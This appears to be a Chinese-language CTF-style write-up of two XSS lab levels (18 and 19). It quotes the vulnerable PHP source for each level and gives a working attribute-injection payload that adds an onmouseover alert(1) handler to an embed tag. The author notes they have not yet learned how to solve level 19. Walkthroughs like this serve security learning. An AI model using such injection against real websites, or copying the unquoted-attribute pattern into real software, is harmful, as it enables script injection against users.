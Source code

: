 

### 第十八关

感觉上是和上一题一样的

```python
<embed src="xsf02.swf?a=b" heigth="100%" width="100%">
```

arg01=a&arg02=b onmouseover=javascript:alert(1)

源码

```python
echo "<embed src=xsf02.swf?".htmlspecialchars($_GET["arg01"])."=".htmlspecialchars($_GET["arg02"])." width=100% heigth=100%>";
```

不能说有点像简直就是一模一样

### 第十九关

直接看十九题的源码

```php
echo '<embed src="xsf03.swf?'.htmlspecialchars($_GET["arg01"])."=".htmlspecialchars($_GET["arg02"]).'" width=100% heigth=100%>'; 
```

这一次就闭合不了了

可以用flash注入但是我现在还没有学会诶



